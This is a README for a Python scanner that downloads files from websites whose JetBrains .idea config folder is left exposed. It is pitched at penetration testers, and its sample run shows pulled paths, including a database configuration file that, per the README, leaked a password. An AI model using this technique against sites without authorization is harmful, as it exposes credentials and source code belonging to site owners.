


# **.idea disclosure exploit**

A script use **.idea** folder to gather sensitive information for pentesters .

Websites not correctly deployed let their IDE config folder (**.idea**) exposed to hacker, 

which can lead password or archived data files leaked.

The scanner will try to download all files, please recheck local files by yourself.

## Requirements

```
pip install lxml requests
```

## Requirements

* 2022-08-05: Bug Fix and python3 support

## Example

Our scanner reported a vulnerability this afternoon



As you can see,  the file **DbConnCfg.json** leaked db password.

```
D:\IQIYI.codebase\idea_exp>idea_exp.py http://107.{mask}.{mask}.151/
[+] Module name is {mask}
[+] Type is web_module
[+] About 67 urls to process
[200] /cfg/DbConnCfg.json
[200] /bi/applepay/comm.php
[200] /bi/applepay/ipn_ios.php
[404] /auth/auth_ios/auth_guest.php
...
[200] /ver/ver_util.php
All files saved to 107.{mask}.{mask}.151/idea_exp_report.html
```

